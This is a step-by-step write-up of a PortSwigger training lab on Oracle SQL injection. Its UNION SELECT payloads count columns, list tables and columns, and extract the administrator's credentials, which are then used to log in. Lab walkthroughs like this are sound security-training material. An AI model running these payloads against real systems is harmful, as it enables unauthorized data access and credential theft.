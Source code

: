 # [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Steps

1. **Access the Lab**  
   - Navigate to the lab and click the "Accessories" category to send:  
     `GET /filter?category=Accessories`.  
   - Capture this request in Burp Suite.

2. **Determine Number of Columns**  
   - Test columns with `ORDER BY`:  
     - `category=Accessories' ORDER BY 1--`: 200 OK.  
     - `category=Accessories' ORDER BY 2--`: 200 OK.  
     - `category=Accessories' ORDER BY 3--`: 500 Error.  
   - **Result**: 2 columns.

3. **Check Column Data Types**  
   - Use `UNION SELECT` with `FROM dual` (Oracle-specific):  
     - `category=Accessories' UNION SELECT 'a','a' FROM dual--`: 200 OK.  
     - `category=Accessories' UNION SELECT 'a',NULL FROM dual--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,'a' FROM dual--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,NULL FROM dual--`: 200 OK.  
   - **Result**: Both columns accept string or NULL values.

4. **List Table Names**  
   - Query `all_tables` for table names:  
     - `category=Accessories' UNION SELECT TABLE_NAME,NULL FROM all_tables--`.  
   - **Result**: Finds table `USERS_ZCPUOJ`.

5. **List Column Names**  
   - Query `all_tab_columns` for columns in `USERS_ZCPUOJ`:  
     - `category=Accessories' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_ZCPUOJ'--`.  
   - **Result**: Finds columns `USERNAME_AZDTVG` and `PASSWORD_HULAXY`.

6. **Retrieve Credentials**  
   - Extract data from `USERS_ZCPUOJ`:  
     - `category=Accessories' UNION SELECT USERNAME_AZDTVG,PASSWORD_HULAXY FROM USERS_ZCPUOJ--`.  
   - **Result**: Gets credentials:  
     - Username: `administrator`  
     - Password: `07gxctwbujdgjrem7zyo`.

7. **Login and Solve**  
   - Log in with `administrator` / `07gxctwbujdgjrem7zyo` on the lab’s login page.  
   - Lab solved upon successful login.

## Notes
- Oracle requires `FROM dual` in `UNION SELECT` queries for standalone expressions.  
- Use `all_tables` and `all_tab_columns` (Oracle-specific) instead of `information_schema` used in non-Oracle databases.  
